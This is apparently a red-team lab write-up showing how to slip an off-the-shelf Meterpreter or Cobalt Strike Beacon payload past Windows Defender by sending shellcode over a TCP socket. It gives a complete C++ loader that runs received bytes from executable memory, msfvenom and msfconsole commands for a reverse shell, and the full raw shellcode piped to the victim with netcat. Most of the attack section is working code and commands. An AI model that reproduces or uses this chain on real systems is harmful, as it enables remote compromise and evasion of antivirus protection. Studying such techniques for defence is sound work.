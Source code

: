 # Bypassing Windows Defender: One TCP Socket Away From Meterpreter and Beacon Sessions

## Context

If you've tried executing an out of the box meterpreter payload on the box with Windows Defender, you know it may get picked up right away as can be seen in the below gif:

![](../.gitbook/assets/peek-2019-05-07-21-40.gif)

This quick lab shows how I was able to execute the off the shelf meterpreter payload against the latest Windows Defender \(7th of May at the time of writing\) by delivering the shellcode over a TCP socket.

{% hint style="info" %}
**Works with Cobalt Strike Beacon**  
The demo uses metasploit's meterpreter payload, but I have tested this technique with Cobalt Strike beacon and it also bypasses the Windows Defender.
{% endhint %}

## Overview

The technique that allowed me to bypass Windows Defender is simple:

* Victim machine \(10.0.0.7\) opens up a listening TCP socket on on port 443 \(or any other\)
* Socket on the victim machine waits for incoming shellcode
* Attacking machine \(10.0.0.5\) connects to the victim socket and sends the shellcode as binary data
* Victim machine receives the shellcode, allocates executable memory and moves the shellcode there
* Victim machine executes the shellcode received over the network and initiates meterpreter \(or cobalt strike beacon\) second stage download
* Attacking machine serves the stage and catches the shell

## Execution

Let's write, compile a simple PoC C++ program \(see [Code](bypassing-windows-defender-one-tcp-socket-away-from-meterpreter-and-cobalt-strike-beacon.md#code) section\) that will do all of the steps explained in the overview section.

Let's execute it on the victim machine and check if the socket on port 443 has been opened:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
netstat -nat | findstr /i listen | findstr /i 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-05-07-20-45-02.png)

Let's generate a staged meterpreter payload and output it to C format:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f c > meterpreter.c
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-05-07-20-49-59.png)

Let's setup an msf handler to catch the meterpreter session on the attacking machine:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```csharp
msfconsole -x "use exploits/multi/handler; set lhost 10.0.0.5; set lport 443; set payload windows/meterpreter/reverse_tcp; exploit"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2019-05-07-22-23-33.png)

We can now take the shellcode from the C file and echo it out as a binary data, pipe it to the victim machine \(where a TCP socket is listening on 443\) via netcat:

{% code-tabs %}
{% code-tabs-item title="attacker@kali" %}
```bash
echo -e "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5" | nc 10.0.0.7 443
```
{% endcode-tabs-item %}
{% endcode-tabs %}

We are now ready to execute the attack. Below shows all of the above in action:

1. Cmd shell in the middle of the screen opens the TCP socket \(port 443\) on the victim machine
2. Windows Defender below the cmd shell shows the signatures are up to date
3. Top right - msfconsole is waiting and ready to send the second stage from the attacking system
4. Bottom right - attacker sends the shellcode to the victim over the wire via netcat
5. Top right - msfconsole serves the second stage to the victim and establishes the meterpreter session

![](../.gitbook/assets/peek-2019-05-07-21-34.gif)

## Conclusion

Why this works? I can only speculate. I am a huge fan of Windows Defender and I think it is doing an amazing job at catching evil and I am sure this will be caught very soon.

## Code

```cpp
#include "pch.h"
#include <WinSock2.h>
#include <WS2tcpip.h>
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ws2_32.lib")

int main()
{
	LPWSADATA wsaData = new WSAData();
	ADDRINFOA *socketHint = new ADDRINFOA();
	ADDRINFOA *addressInfo = new ADDRINFOA();
	SOCKET listenSocket = INVALID_SOCKET;
	SOCKET clientSocket = INVALID_SOCKET;
	CHAR bufferReceivedBytes[4096] = {0};
	INT receivedBytes = 0;
	PCSTR port = "443";

	socketHint->ai_family = AF_INET;
	socketHint->ai_socktype = SOCK_STREAM;
	socketHint->ai_protocol = IPPROTO_TCP;
	socketHint->ai_flags = AI_PASSIVE;

	WSAStartup(MAKEWORD(2, 2), wsaData);
	GetAddrInfoA(NULL, port, socketHint, &addressInfo);

	listenSocket = socket(addressInfo->ai_family, addressInfo->ai_socktype, addressInfo->ai_protocol);
	bind(listenSocket, addressInfo->ai_addr, addressInfo->ai_addrlen);
	listen(listenSocket, SOMAXCONN);
	std::cout << "Listening on TCP port " << port << std::endl;

	clientSocket = accept(listenSocket, NULL, NULL);
	std::cout << "Incoming connection..." << std::endl;
	
	receivedBytes = recv(clientSocket, bufferReceivedBytes, sizeof(bufferReceivedBytes), NULL);
	if (receivedBytes > 0) {
		std::cout << "Received shellcode bytes " << receivedBytes << std::endl;
	}
	
	LPVOID shellcode = VirtualAlloc(NULL, receivedBytes, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	std::cout << "Allocated memory for shellocode at: " << shellcode << std::endl;
	
	memcpy(shellcode, bufferReceivedBytes, sizeof(bufferReceivedBytes));
	std::cout << "Copied shellcode to: " << shellcode << std::endl << "Sending back meterpreter session...";
	((void(*)()) shellcode)();
	
	return 0;
}
```

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/ws2tcpip/nf-ws2tcpip-getaddrinfo" %}



